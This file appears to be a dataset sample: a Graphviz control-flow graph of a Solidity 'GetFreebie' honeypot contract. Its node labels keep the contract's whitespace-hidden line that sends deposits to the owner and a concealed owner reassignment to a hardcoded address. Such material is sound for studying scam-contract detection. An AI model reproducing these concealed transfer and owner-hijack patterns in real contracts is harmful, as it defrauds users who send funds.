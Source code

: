 digraph  {
13 [label="3_ address public Owner = msg.sender;\n13-new_variable-4-4", method="", type_label=new_variable];
25 [label="9_ function GetFreebie()\n    public\n    payable\n    {                                                                    \n        if(msg.value>1 ether)\n        {                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    Owner.transfer(this.balance);                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           \n            msg.sender.transfer(this.balance);\n        }                                                                                                                \n    }\n25-function_definition-10-18", method="GetFreebie()", type_label=function_definition];
30 [label="13_ if_msg.value>1 ether\n30-if-14-17", method="GetFreebie()", type_label=if];
153 [label="13_ end_if", method="GetFreebie()", type_label=end_if];
38 [label="14_ Owner.transfer(this.balance);\n38-expression_statement-15-15", method="GetFreebie()", type_label=expression_statement];
47 [label="15_ msg.sender.transfer(this.balance);\n47-expression_statement-16-16", method="GetFreebie()", type_label=expression_statement];
58 [label="18_ function withdraw()\n    payable\n    public\n    {                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        if(msg.sender==0x0C76802158F13aBa9D892EE066233827424c5aAB){Owner=0x0C76802158F13aBa9D892EE066233827424c5aAB;}                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  \n        require(msg.sender == Owner);\n        Owner.transfer(this.balance);\n    }\n58-function_definition-19-25", method="withdraw()", type_label=function_definition];
63 [label="21_ if_msg.sender==0x0C76802158F13aBa9D892EE066233827424c5aAB\n63-if-22-22", method="withdraw()", type_label=if];
186 [label="21_ end_if", method="withdraw()", type_label=end_if];
70 [label="21_ Owner=0x0C76802158F13aBa9D892EE066233827424c5aAB;\n70-expression_statement-22-22", method="withdraw()", type_label=expression_statement];
74 [label="22_ require(msg.sender == Owner);\n74-expression_statement-23-23", method="withdraw()", type_label=expression_statement];
83 [label="23_ Owner.transfer(this.balance);\n83-expression_statement-24-24", method="withdraw()", type_label=expression_statement];
92 [label="25_ function Command(address adr,bytes data)\n    payable\n    public\n    {\n        require(msg.sender == Owner);\n        adr.call.value(msg.value)(data);\n    }\n92-function_definition-26-32", method="Command(address adr,bytes data)", type_label=function_definition];
105 [label="29_ require(msg.sender == Owner);\n105-expression_statement-30-30", method="Command(address adr,bytes data)", type_label=expression_statement];
114 [label="30_ adr.call.value(msg.value)(data);\n114-expression_statement-31-31", method="Command(address adr,bytes data)", type_label=expression_statement];
1 [label="0_ start_node", method="", type_label=start];
2 [label="0_ exit_node", method="", type_label=exit];
25 -> 30  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
30 -> 38  [color=red, controlflow_type=pos_next, edge_type=CFG_edge, key=0, label=pos_next];
30 -> 153  [color=red, controlflow_type=neg_next, edge_type=CFG_edge, key=0, label=neg_next];
153 -> 58  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
38 -> 47  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
47 -> 153  [color=red, controlflow_type=end_if, edge_type=CFG_edge, key=0, label=end_if];
58 -> 63  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
63 -> 70  [color=red, controlflow_type=pos_next, edge_type=CFG_edge, key=0, label=pos_next];
63 -> 186  [color=red, controlflow_type=neg_next, edge_type=CFG_edge, key=0, label=neg_next];
186 -> 74  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
70 -> 186  [color=red, controlflow_type=end_if, edge_type=CFG_edge, key=0, label=end_if];
74 -> 83  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
92 -> 105  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
105 -> 114  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
}
